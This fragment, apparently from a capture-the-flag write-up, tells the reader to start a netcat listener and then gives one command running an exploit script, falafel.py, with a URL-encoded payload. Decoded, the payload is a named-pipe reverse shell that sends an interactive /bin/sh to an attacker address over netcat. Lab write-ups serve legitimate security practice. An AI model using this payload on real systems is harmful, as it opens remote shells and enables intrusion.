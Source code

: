 Start your netcat before

```python3 falafel.py --command "rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.24%209999%20%3E%2Ftmp%2Ff"```
